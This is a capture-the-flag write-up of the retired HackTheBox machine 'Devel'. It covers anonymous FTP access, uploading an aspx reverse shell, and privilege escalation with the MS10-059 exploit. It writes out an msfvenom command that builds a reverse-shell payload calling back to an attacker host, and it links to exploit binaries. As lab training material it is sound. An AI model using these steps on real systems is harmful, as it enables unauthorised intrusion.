 ```yaml
---
title: Devel Hackthebox Writeup
date: 2020-12-18 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,systeminfo,ftp anonymous,aspx,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/devel-hackthebox/devel-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Devel:~$


Column | Details
------------ | -------------
Name | Devel
IP | 10.10.10.5
Points | 20
Os | Windows
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 15th March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* logging in as `anonymous` user in `ftp port`.
* Uploading an aspx `shell` via ftp and accessing it on `port 80` to get a reverse shell.
* Using `windows exploit suggester` for escalating privileges.
* using `MS10-059.exe` got `Root Privileges`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/devel-hackthebox/nmap-scan-1.png)

Let's Check port `80`, which is a **Microsoft IIS httpd 7.5** server.

___
![](/assets/img/devel-hackthebox/port-80-2.png)

I tried `gobuster` for directory search, but it didn't worked out for me.

**Command** : *gobuster dir -u http://10.10.10.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100*

where   **t : threads**
        **| u : URL**
        **| w : wordlists**

___
![](/assets/img/devel-hackthebox/gobuster-3.png)

Then I tried logging in `ftp` as an `anonymous user` which worked. 

*Username*: `anonymous` | *Password*: `anonymous`

___
![](/assets/img/devel-hackthebox/ftp-anonyous-4.png)

Looking what's inside ftp 

___
![](/assets/img/devel-hackthebox/ftp-inside-5.png)

I tried accessing the `aspnet_client/` directory but it showed an *403 Forbidden Error*.

___
![](/assets/img/devel-hackthebox/aspent_client-access-denied-6.png)

I used gobuster on `aspnet_client/`, but it didn't worked out.

So I tried uploading a shell in the `ftp` using **put** command and accessing it via `port 80` to get a reverse shell.

Creating payload using `msfvenom` 

**Command**: *msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=1234 -f aspx > shell.aspx*

___
![](/assets/img/devel-hackthebox/msfvenom-payload-8.png)

Uploading it to `ftp`.

___
![](/assets/img/devel-hackthebox/uploaded-shell-ftp-9.png)

Accessing /shell.aspx on `port 80`.

We got a Shell.

___
![](/assets/img/devel-hackthebox/got-shell-10.png)

But I wasn't able to get the `User Flag` becasue we didn't had the permissions.

___
![](/assets/img/devel-hackthebox/no-access-11.png)

Let's first escalate the privileges, running `systeminfo` on the machine to get all the information.

___
![](/assets/img/devel-hackthebox/getting-systeminfo-for-privsec-13.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/devel-hackthebox/exploit-suggester-results-14.png)

I tried using the `MS10-59` exploit for escalating privileges.

Download Link : [MS10-59.exe]( https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

Uploading `MS10-59.exe` via ftp, just like we uploaded the aspx shell.

___
![](/assets/img/devel-hackthebox/escalating-privs-15.png)

When I tried escalating privileges, it threw me an `error` of *This program cannot be run in DOS mode.*

___
![](/assets/img/devel-hackthebox/cannot-run-in-DOS-mode-16.png)

I googled about this and found [this](https://superuser.com/questions/476808/i-am-getting-this-program-cannot-be-run-in-dos-mode-in-windows-xp).

Now sending the executable again but before that switching the `ftp` mode to `binary` first.

___
![](/assets/img/devel-hackthebox/transfering-0again-in-binary-mode-17.png)

Now Running the exploit and listenig on `nc`.

___
![](/assets/img/devel-hackthebox/got-shell-10.png)

Checking `whoami`.

___
![](/assets/img/devel-hackthebox/whoami-image-final.png)

Got `Root`.

